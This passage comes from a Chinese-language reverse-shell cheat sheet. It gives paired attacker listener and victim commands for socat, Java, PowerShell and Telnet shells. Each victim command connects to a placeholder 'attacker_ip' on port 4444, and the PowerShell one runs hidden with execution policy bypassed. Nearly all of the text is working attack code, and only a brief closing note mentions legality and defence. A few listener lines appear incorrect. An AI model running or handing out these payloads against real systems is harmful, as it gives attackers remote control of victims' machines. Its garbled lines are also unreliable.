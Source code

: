 #### 攻击者机器 (接收机) 监听语句
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

#### 受害者机器反弹Shell命令
```bash
socat TCP:attacker_ip:4444 EXEC:/bin/bash
```

### 8. Java反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attacker_ip/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 9. PowerShell反弹Shell (用于Windows)

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker_ip",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

### 10. Telnet反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
telnet -l /bin/bash attacker_ip 4444
```

#### 受害者机器反弹Shell命令
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attacker_ip 4444 0</tmp/p | /bin/sh 1>/tmp/p
```

这些命令适用于各种情况和环境，但在实际使用时需要注意以下几点：

1. **网络安全和法律责任**：未经授权的反弹Shell行为是非法的，可能导致法律后果。请确保你拥有合法的权限和授权。
2. **防范措施**：作为防御者，了解这些技术有助于加强系统安全，例如使用防火墙规则限制出站连接，监控网络流量等。